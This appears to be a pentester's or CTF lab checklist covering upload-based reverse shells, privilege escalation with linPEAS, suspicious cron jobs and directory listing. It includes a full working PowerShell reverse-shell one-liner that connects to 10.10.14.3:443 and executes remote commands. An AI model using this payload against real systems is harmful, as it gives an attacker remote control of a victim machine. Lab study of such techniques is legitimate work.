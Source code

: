 # MISC

Things to inspect

- **upload file** for possible reverse shell attack 

    current known script to reverse shell:
    - xp_cmdshell

    ```
    $client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    ```
    - php, [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- **file permission** to escalate previlege
    
    scan with [linepeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).

- **unususal process** such as cron to do something (curl, wget) 

- **ls -la**

    always `ls -la` to inspect folder/file thoroughly